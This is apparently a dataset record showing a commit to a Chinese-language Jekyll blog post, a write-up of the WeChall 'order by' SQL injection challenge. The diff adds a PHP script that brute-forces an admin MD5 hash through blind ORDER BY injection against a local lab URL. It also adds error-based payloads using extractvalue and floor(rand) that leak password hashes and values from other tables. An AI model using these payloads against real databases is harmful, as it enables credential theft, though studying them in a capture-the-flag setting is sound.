

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-25-wechall-order-by.md, in a window 1280 px wide and 1400 px high, scrolled down 2409 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 3526 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2015-04-25-wechall-order-by.md

```diff
--- a/_posts/2015-04-25-wechall-order-by.md
+++ b/_posts/2015-04-25-wechall-order-by.md
@@ -14,8 +14,7 @@ tags:
 {% raw %}
 <pre>
 order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
-order by apples,IF(1,bananas,cherries) desc
-order by apples,(case when 1 then bananas else cherries end) desc
+字段2处替换为： IF(1,bananas,cherries) 或 (case when 1 then bananas else cherries end)
 
 ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
 </pre>
@@ -53,6 +52,29 @@ for i in range(1,33):
             break
 print AdminHash
 {% endhighlight %}
+
+php爆破脚本：
+{% highlight php %}
+<?php
+$md5 = '';
+$foo = array('0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f');
+for($i=1; $i <= 32; $i++)
+{
+        foreach($foo as $s)
+        {
+           $s = ord($s);
+           $res = system("wget -O - 'http://192.168.1.100/DebugPHP/3.php?by=IF(SUBSTR((SELECT password from fruits WHERE username=CHAR(65,100,109,105,110)),{$i},1)=CHAR({$s}),username,password) LIMIT 2--' 2>/dev/null | grep Admin");
+                if('' != $res)
+                {
+                    $md5 .= chr($s);
+                    break;
+                 }
+        }
+}
+echo "===$md5===";
+?>
+{% endhighlight %}
+
 
 php本地注入测试脚本
 {% highlight php %}
@@ -151,11 +173,6 @@ insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
 其他注入知识点：
 {% raw %}
 <pre>
-mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
-ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'
-
-update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
-
 ''=(payload)=''
 ' or (payload) or '
 ' and (payload) and '
@@ -164,6 +181,23 @@ update users set password='',password=(select email_id from emails limit 0,1) wh
 '*  (payload)  *'
 ' or (payload) and '
 " – (payload) – "
+
+select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
+//Duplicate entry 'security1' for key 'group_key'
+
+update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
+
+order by apples,IF(1,bananas,cherries) desc
+order by apples,(case when 1 then bananas else cherries end) desc
+
+order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),1,16)));
+//XPATH syntax error: ':e10adc3949ba59ab'  爆出前16位
+order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),17,16)));
+//XPATH syntax error: ':be56e057f20f894e'  爆出后16位
+
+select * from fruits order by extractvalue(0,concat(0x3a,(select password from users where username='Dummy')));
+//XPATH syntax error: ':p@ssword' 可以爆出其他表中的字段值
+
 
 mysql常用命令：
 select hex('Admin');  /*41646D696E*/
```
